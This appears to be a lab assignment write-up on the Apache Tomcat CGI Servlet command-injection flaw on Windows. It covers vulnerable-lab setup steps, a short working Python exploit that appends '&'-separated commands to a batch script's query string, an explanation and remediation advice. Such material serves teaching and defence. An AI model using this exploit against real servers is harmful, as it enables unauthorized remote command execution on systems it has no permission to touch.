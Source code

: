 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Environment Setup:
1. Install a Java Runtime Environment (JRE) in Windows.
2. Download a vulnerable version of Tomcat (in this case 7.0.93) and extract.
3. Modify the `conf\context.xml` file on line 19, to enable privileged context:

	``` html
	<Context privileged="true">
	```	
4. Modify `conf\web.xml` to enable the CGI Servlet by removing the comments around line 387 as follows and adding the following parameters: 

	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

5.	Enable the CGI servlet by removing comments around this – you also need to change the URL pattern to match the one in the previous step (`cgi`):
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```

6.	Create a folder for the CGI files:
 	`mkdir webapps\ROOT\WEB-INF\cgi`
7.	Create any non empty bat file with valid commands.
8.	Run Tomcat via the following command:
	``` bash
	cd bin
	catalina run
	```
1.	Run the exploit code with url of the `.bat` file in cgi folder on server.
  
# Exploit Code:

```python3
import requests as re
base_url = input("Enter url of the .bat cgi script: ")
while(True):
	command = input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command
	r = re.get(base_url, params=command.replace(" ","+"))
	print(r.text)
```

This code exploits vulnerability in parameter interpolation by passing arguements as query parameters which in turn are passed to the underlying windows command line. In
windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the Windows JRE perform any kind of input validation for these special characters.
So after this we can literally input any command directly to the command line. For example, if input is `whoami`, the command which is passed to cmdline will be `RCE.bat &echo
off&echo.&whoami`. This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files and
`enableCmdLineArguements` set to true in web.xml file. 

  
# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
2.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` for proper input validation. 

# References:
1.	https://www.codewhitesec.blogspot.com/2016/02/java-and-command-line-injections-in-windows.html
2.	https://docs.microsoft.com/en-us/archive/blogs/twistylittlepassagesallalike/everyone-quotes-command-line-arguments-the-wrong-way
